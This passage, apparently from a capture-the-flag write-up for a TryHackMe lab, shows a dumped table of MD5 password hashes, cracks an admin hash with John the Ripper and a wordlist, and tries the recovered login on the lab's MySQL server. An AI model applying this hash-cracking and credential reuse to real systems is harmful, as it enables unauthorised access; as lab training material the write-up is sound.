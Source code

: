 
**Table `creatures`:**
```json
[
    [
        {
            "idCreature": "1",
            "nameCreature": "Cerberos",
            "passwordCreature": "3898e56bf6fa6ddfc3c0977c514a65a8"
        },
        {
            "idCreature": "2",
            "nameCreature": "Pegasus",
            "passwordCreature": "5d20441c392b68c61592b2159990abfe"
        },
        {
            "idCreature": "3",
            "nameCreature": "Chiron",
            "passwordCreature": "f847149233ae29ec0e1fcf052930c044"
        },
        {
            "idCreature": "4",
            "nameCreature": "Centaurus",
            "passwordCreature": "ea5540126c33fe653bf56e7a686b1770"
        }
    ]
]
```

Maybe we should crack `M!n0taur`'s password hash? Because he is an admin:

```html
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nano m\!n0taur.hash
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 m\!n0taur.hash
[...]
{Redcated}       (M!n0taur)
```

Cracked!

Let's connect to MySQL:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# mysql -uM\!n0taur -p{Redacted} -h $RHOSTS
ERROR 1130 (HY000): Host 'ip-10-18-61-134.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
```
